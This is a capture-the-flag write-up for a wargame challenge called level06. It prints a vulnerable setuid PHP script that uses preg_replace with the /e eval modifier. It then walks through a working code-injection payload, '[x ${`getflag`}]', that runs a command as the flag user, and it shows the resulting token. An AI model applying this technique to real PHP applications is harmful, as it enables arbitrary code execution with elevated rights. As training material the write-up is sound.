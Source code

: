 At the home directorie there is a .php file : level06.php.
It is the source code of the program : level06

The program level06 has a setuid bits :

       |
       v
    -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06

It means that the program is always executed with the right of the user flag06.

<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>

The php script is using the function x() with the user argument :
    x($argv[1], $argv[2]);

Then it's opening the file path of the first argument :
    $a = file_get_contents($y);

Finally it's capturing /[x (.*)]/ and executing what was captured "/e" with the eval regex modifier :
    preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);

We need to creat a file and give the path as argument :
    file : [x `getflag`]
This won't work beacause the php string analysis won't interpet the matched string "`getflag`"

We need to use the complexe syntax for the interpretation of complexe expression
    file : [x ${`getflag`}]
    ./level06 /tmp/payload

Finaly it gave use an error, but the matched expression is evaluated :

    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    in /home/user/level06/level06.php(4) : regexp code on line 1